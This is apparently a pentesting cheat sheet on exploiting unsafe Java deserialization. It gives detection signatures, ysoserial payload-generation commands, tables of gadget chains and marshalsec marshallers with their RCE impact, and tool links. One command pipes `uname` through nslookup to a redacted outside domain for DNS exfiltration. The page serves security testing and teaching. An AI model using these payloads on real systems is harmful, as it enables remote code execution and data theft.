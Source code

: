 # Java Deserialization

## Detection

* "AC ED 00 05" in Hex
* "rO0" in Base64
* Content-type = "application/x-java-serialized-object"
* "H4sIAAAAAAAAAJ" in gzip(base64)

## Exploit

[ysoserial](https://github.com/frohoff/ysoserial) : A proof-of-concept tool for generating payloads that exploit unsafe Java object deserialization.

```java
java -jar ysoserial.jar CommonsCollections1 calc.exe > commonpayload.bin
java -jar ysoserial.jar Groovy1 calc.exe > groovypayload.bin
java -jar ysoserial-master-v0.0.4-g35bce8f-67.jar Groovy1 'ping 127.0.0.1' > payload.bin
java -jar ysoserial.jar Jdk7u21 bash -c 'nslookup `uname`.[redacted]' | gzip | base64
```

| payload             | author                       | dependencies                                                                                                                                                                                         | impact (if not RCE)  |
| ------------------- | ---------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | -------------------- |
| BeanShell1          | @pwntester, @cschneider4711  | bsh:2.0b5                                                                                                                                                                                            |                      |
| C3P0                | @mbechler                    | c3p0:0.9.5.2, mchange-commons-java:0.2.11                                                                                                                                                            |                      |
| Clojure             | @JackOfMostTrades            | clojure:1.8.0                                                                                                                                                                                        |                      |
| CommonsBeanutils1   | @frohoff                     | commons-beanutils:1.9.2, commons-collections:3.1, commons-logging:1.2                                                                                                                                |                      |
| CommonsCollections1 | @frohoff                     | commons-collections:3.1                                                                                                                                                                              |                      |
| CommonsCollections2 | @frohoff                     | commons-collections4:4.0                                                                                                                                                                             |                      |
| CommonsCollections3 | @frohoff                     | commons-collections:3.1                                                                                                                                                                              |                      |
| CommonsCollections4 | @frohoff                     | commons-collections4:4.0                                                                                                                                                                             |                      |
| CommonsCollections5 | @matthias\_kaiser, @jasinner | commons-collections:3.1                                                                                                                                                                              |                      |
| CommonsCollections6 | @matthias\_kaiser            | commons-collections:3.1                                                                                                                                                                              |                      |
| FileUpload1         | @mbechler                    | commons-fileupload:1.3.1, commons-io:2.4                                                                                                                                                             | file uploading       |
| Groovy1             | @frohoff                     | groovy:2.3.9                                                                                                                                                                                         |                      |
| Hibernate1          | @mbechler                    |                                                                                                                                                                                                      |                      |
| Hibernate2          | @mbechler                    |                                                                                                                                                                                                      |                      |
| JBossInterceptors1  | @matthias\_kaiser            | javassist:3.12.1.GA, jboss-interceptor-core:2.0.0.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21                                             |                      |
| JRMPClient          | @mbechler                    |                                                                                                                                                                                                      |                      |
| JRMPListener        | @mbechler                    |                                                                                                                                                                                                      |                      |
| JSON1               | @mbechler                    | json-lib:jar:jdk15:2.4, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2, commons-lang:2.6, ezmorph:1.0.6, commons-beanutils:1.9.2, spring-core:4.1.4.RELEASE, commons-collections:3.1 |                      |
| JavassistWeld1      | @matthias\_kaiser            | javassist:3.12.1.GA, weld-core:1.1.33.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21                                                         |                      |
| Jdk7u21             | @frohoff                     |                                                                                                                                                                                                      |                      |
| Jython1             | @pwntester, @cschneider4711  | jython-standalone:2.5.2                                                                                                                                                                              |                      |
| MozillaRhino1       | @matthias\_kaiser            | js:1.7R2                                                                                                                                                                                             |                      |
| Myfaces1            | @mbechler                    |                                                                                                                                                                                                      |                      |
| Myfaces2            | @mbechler                    |                                                                                                                                                                                                      |                      |
| ROME                | @mbechler                    | rome:1.0                                                                                                                                                                                             |                      |
| Spring1             | @frohoff                     | spring-core:4.1.4.RELEASE, spring-beans:4.1.4.RELEASE                                                                                                                                                |                      |
| Spring2             | @mbechler                    | spring-core:4.1.4.RELEASE, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2                                                                                                            |                      |
| URLDNS              | @gebl                        |                                                                                                                                                                                                      | jre only vuln detect |
| Wicket1             | @jacob-baines                | wicket-util:6.23.0, slf4j-api:1.6.4                                                                                                                                                                  |                      |

## Burp extensions using ysoserial

* [JavaSerialKiller](https://github.com/NetSPI/JavaSerialKiller)
* [Java Deserialization Scanner](https://github.com/federicodotta/Java-Deserialization-Scanner)
* [Burp-ysoserial](https://github.com/summitt/burp-ysoserial)
* [SuperSerial](https://github.com/DirectDefense/SuperSerial)
* [SuperSerial-Active](https://github.com/DirectDefense/SuperSerial-Active)

## Other tools

* [JRE8u20\_RCE\_Gadget](https://github.com/pwntester/JRE8u20\_RCE\_Gadget)
* [JexBoss](https://github.com/joaomatosf/jexboss) - JBoss (and others Java Deserialization Vulnerabilities) verify and EXploitation Tool
* [ysoserial-modified](https://github.com/pimps/ysoserial-modified)
* [gadgetprobe](https://labs.bishopfox.com/gadgetprobe)
* [marshalsec](https://github.com/mbechler/marshalsec) - Turning your data into code execution

```java
java -cp target/marshalsec-0.0.1-SNAPSHOT-all.jar marshalsec.<Marshaller> [-a] [-v] [-t] [<gadget_type> [<arguments...>]]

 where
  -a - generates/tests all payloads for that marshaller
  -t - runs in test mode, unmarshalling the generated payloads after generating them.
  -v - verbose mode, e.g. also shows the generated payload in test mode.
  gadget_type - Identifier of a specific gadget, if left out will display the available ones for that specific marshaller.
  arguments - Gadget specific arguments
```

Payload generators for the following marshallers are included:\


| Marshaller          | Gadget Impact                                                                          |
| ------------------- | -------------------------------------------------------------------------------------- |
| BlazeDSAMF(0\|3\|X) | <p>JDK only escalation to Java serialization<br>various third party libraries RCEs</p> |
| Hessian\|Burlap     | various third party RCEs                                                               |
| Castor              | dependency library RCE                                                                 |
| Jackson             | **possible JDK only RCE**, various third party RCEs                                    |
| Java                | yet another third party RCE                                                            |
| JsonIO              | **JDK only RCE**                                                                       |
| JYAML               | **JDK only RCE**                                                                       |
| Kryo                | third party RCEs                                                                       |
| KryoAltStrategy     | **JDK only RCE**                                                                       |
| Red5AMF(0\|3)       | **JDK only RCE**                                                                       |
| SnakeYAML           | **JDK only RCEs**                                                                      |
| XStream             | **JDK only RCEs**                                                                      |
| YAMLBeans           | third party RCE                                                                        |

## References

* [Github - ysoserial](https://github.com/frohoff/ysoserial)
* [Java-Deserialization-Cheat-Sheet - GrrrDog](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet/blob/master/README.md)
* [Understanding & practicing java deserialization exploits](https://diablohorn.com/2017/09/09/understanding-practicing-java-deserialization-exploits/)
* [How i found a 1500$ worth Deserialization vulnerability - @D0rkerDevil](https://medium.com/@D0rkerDevil/how-i-found-a-1500-worth-deserialization-vulnerability-9ce753416e0a)
* [Misconfigured JSF ViewStates can lead to severe RCE vulnerabilities - 14 Aug 2017, Peter Stöckli](https://www.alphabot.com/security/blog/2017/java/Misconfigured-JSF-ViewStates-can-lead-to-severe-RCE-vulnerabilities.html)
* [Jackson CVE-2019-12384: anatomy of a vulnerability class](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html)
* [On Jackson CVEs: Don’t Panic — Here is what you need to know](https://medium.com/@cowtowncoder/on-jackson-cves-dont-panic-here-is-what-you-need-to-know-54cd0d6e8062#da96)
* [Pre-auth RCE in ForgeRock OpenAM (CVE-2021-35464) - Michael Stepankin / @artsploit - 29 June 2021](https://portswigger.net/research/pre-auth-rce-in-forgerock-openam-cve-2021-35464)
